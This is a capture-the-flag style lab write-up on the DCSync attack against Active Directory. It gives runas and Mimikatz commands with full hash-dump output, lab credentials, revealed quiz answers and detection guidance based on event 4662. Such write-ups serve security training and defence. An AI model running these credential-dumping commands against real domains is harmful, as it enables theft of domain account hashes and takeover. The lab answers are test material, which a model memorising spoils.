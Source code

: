 ```yaml
---
title: "28. DCSync"
authors: [asalucci]
tags: [HackTheBox, CTF, trustinveritas, alessandro]
published: 2025-04-28
categories: ["SOC", "Analyst", "Write", "Up", "HackTheBox"]
---
```


import RevealFlag from '@site/src/components/RevealFlag';

# DCSync

## Description

`DCSync` is an attack that threat agents utilize to **impersonate a Domain Controller** and **perform replication with a targeted Domain Controller** to `extract password hashes` from **Active Directory**. The attack can be performed both from the perspective of `a user account` or `a computer`, as long as they have the **necessary permissions assigned**, which are:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`

---

## Attack

We will utilize the user `Rocky` (whose password is `Slavi123`) to showcase the `DCSync` attack. When we check the permissions for Rocky, we see that he has `Replicating Directory Changes` and `Replicating Directory Changes All` assigned:

![AD-Permissions-Rocky](img/AD-Permissions-Rocky.png)

First, we need to start a new command shell running as Rocky:

```cmd
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```

![cmd-1](img/cmd-1.png)

Subsequently, we need to use `Mimikatz`, one of the tools with an implementation for performing `DCSync`. We can run it by specifying the username whose password hash we want to obtain if the attack is successful, in this case, the user `Administrator`:

### 🔓 Mimikatz

```cmd
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

![mimikatz](img/mimikatz.png)

It is possible to specify the `/all` parameter instead of a specific username, which will **dump the hashes of the entire AD environment**. We can perform `pass-the-hash` with the obtained hash and authenticate against any Domain Controller.

---

## Prevention

What `DCSync` abuses is **a common operation** in Active Directory environments, as `replications happen between Domain Controllers all the time`; therefore, **preventing** DCSync out of the box is not an option. The only prevention technique against this attack is using solutions such as the [RPC Firewall](https://github.com/zeronetworks/rpcfirewall), a third-party product that can `block` or `allow` **specific RPC calls with robust granularity**. For example, using `RPC Firewall`, we can **only allow replications from Domain Controllers**.

---

## Detection

Detecting `DCSync` is easy because **each Domain Controller replication generates** an [event with the ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4662). We can pick up abnormal requests immediately by monitoring for this event ID and checking whether the initiator account is a Domain Controller. Here's the event generated from earlier when we ran `Mimikatz`; it serves as a flag that a user account is performing this replication attempt:

![4662](img/4662.png)

Since replications occur constantly, we can **avoid false positives** by ensuring the followings:

- Either the property `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` is [present in the event](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).

- `Whitelisting systems/accounts` with a (valid) business reason for replicating, such as `Azure AD Connect` *(this service constantly replicates Domain Controllers and sends the obtained password hashes to Azure AD)*.

---

## Questions

### 1. `Connect to the target and perform a DCSync attack as the user rocky (password:Slavi123). What is the NTLM hash of the Administrator user?`

<RevealFlag>{`fcdc65703dd2b0bd789977f1f3eeaecf`}</RevealFlag>

#### mimikatz

```cmd
runas /user:eagle\rocky cmd.exe
```

> Password: Slavi123

```cmd
cd C:\Mimikatz
```

```cmd
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
```

```cmd
lsadump::dcsync /domain:eagle.local /user:Administrator
```

```cmd
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: <HERE-IS-THE-HASH>

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

---

### `2. After performing the DCSync attack, connect to DC1 as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the Task Category of the events generated by the attack?`

<RevealFlag>{`Directory Service Access`}</RevealFlag>

<br />

![Event-ID-4662](img/Event-ID-4662.png)
---

## 🎁 Bonus

:::note
Check out two exclusive Mimikatz scripts I built

- [Automatic HashDump for Mimikatz](https://github.com/trustinveritas/pentest-project-site/blob/main/Active-Directory/mimikatz/dump-hashes.ps1)
- [Mimikatz log output parser for Hashcat](https://github.com/trustinveritas/pentest-project-site/blob/main/Active-Directory/mimikatz/mimikatz-log-to-hashcat-parser.ps1)

:::